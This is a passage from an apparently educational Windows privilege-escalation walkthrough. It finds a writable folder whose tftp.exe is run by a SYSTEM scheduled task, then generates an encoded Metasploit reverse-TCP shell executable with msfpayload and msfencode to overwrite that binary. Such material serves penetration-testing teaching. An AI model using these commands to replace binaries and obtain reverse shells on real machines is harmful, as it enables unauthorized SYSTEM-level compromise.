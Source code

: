             FILE_READ_ATTRIBUTES
            FILE_READ_EA
            FILE_TRAVERSE
            SYNCHRONIZE
            READ_CONTROL

    C:Usersuser1Desktop> dir "E:GrabLogs"

     Volume in drive E is More
     Volume Serial Number is FD53-2F00

     Directory of E:GrabLogs

    02/18/2014  11:34 PM    <DIR>          .
    02/18/2014  11:34 PM    <DIR>          ..
    02/18/2014  11:34 PM    <DIR>          Logs
    02/18/2014  09:21 PM           180,736 tftp.exe
                   1 File(s)        180,736 bytes
                   3 Dir(s)   5,454,602,240 bytes free

Clearly this is a serious configuration issue, there is no need for this task to run as SYSTEM but even worse is the fact that any authenticated user has write access to the folder. Ideally for a pentesting engagement I would grab the TFTP client, backdoor the PE executable while making sure it still worked flawlessly and then drop it back on the target machine. However for the purpose of this example we can simple overwrite the binary with an executable generated by metasploit.

    root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' O

           Name: Windows Command Shell, Reverse TCP Inline
         Module: payload/windows/shell_reverse_tcp
       Platform: Windows
           Arch: x86
    Needs Admin: No
     Total size: 314
           Rank: Normal

    Provided by:
      vlad902 <vlad902@gmail.com>
      sf <stephen_fewer@harmonysecurity.com>

    Basic options:
    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique: seh, thread, process, none
    LHOST     127.0.0.1        yes       The listen address
    LPORT     9988             yes       The listen port

    Description:
      Connect back to attacker and spawn a command shell

    root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' R | msfencode -t
    exe > /root/Desktop/evil-tftp.exe

    [*] x86/shikata_ga_nai succeeded with size 341 (iteration=1)

All that remains now is to upload our malicious executable and overwrite "E:GrabLogstftp.exe". Once that is done we can get an early night sleep and wake up for our shell in the morning. An important thing to remember here is that we check the time/timezone on the box we are trying to compromise.
